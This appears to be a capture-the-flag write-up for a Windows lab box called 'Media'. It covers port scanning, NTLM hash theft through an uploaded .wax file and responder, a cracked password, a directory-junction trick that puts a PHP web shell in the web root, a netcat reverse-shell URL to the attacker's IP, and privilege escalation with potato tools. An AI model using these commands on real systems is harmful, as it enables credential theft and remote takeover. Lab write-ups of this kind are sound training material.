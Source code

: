 # Enumeration
```
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 0b:b3:c0:80:40:88:e1:ae:aa:3b:5f:f4:c2:23:c0:0d (RSA)
|   256 e0:80:3f:dd:b1:f8:fc:83:f5:de:d5:b3:2d:5a:4b:39 (ECDSA)
|_  256 b5:32:c0:72:18:10:0f:24:5d:f8:e1:ce:2a:73:5c:1f (ED25519)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: ProMotion Studio
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=MEDIA
| Not valid before: 2024-04-02T07:31:21
|_Not valid after:  2024-10-02T07:31:21
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-03T07:32:26+00:00
|_ssl-date: 2024-04-03T07:32:32+00:00; -2s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
Now we discover a file upload and the file is opened in windows media player![](attachment/6c5db7d343b69fcef748bbc73665f873.png)
We can use **ntlm_theft** to steal NTLM hashes:
To generate payload:
```
python3 ntlm_theft.py --generate wax --server 10.8.1.208 --filename payload
```
We receive the hashes in responder:
![](attachment/215f0bc9e55fc87ae1eec41ca4c32e24.png)Now cracking in hashcat: *enox : 1234virus@*
Using these creds for ssh we get a shell:
![](attachment/baa083c77e6fc69d91d043d0ea6ef79b.png)
Now we can access the files of the website at ` C:\xampp\htdocs>`
And analysing the index.php file we can tell where uploaded files go:
![](attachment/8a52476eae9b1d317d349dd67e880e63.png)
We can upload a shell.php and symlink junction it to `C:\xampp\htdocs`.

```
mklink /J C:\Windows\Tasks\Uploads\0c5cb0e2f2633bb6ab6497d9dde23df0 C:\xampp\htdocs
```

Now uploading shell.php we can access it in root directory 
and execute whoami
![](attachment/f7f3b0600e06baa6826aa9d536a53504.png)
Now getting a reverse shell with netcat
http://media.vl/shell.php?cmd=c:\\temp\\nc64.exe+-e+cmd.exe+10.8.1.208+9005
![](attachment/cc3e9e4cd2471176133b41e78135b11b.png)
Then using Fullpower and Godpotato we get administrator.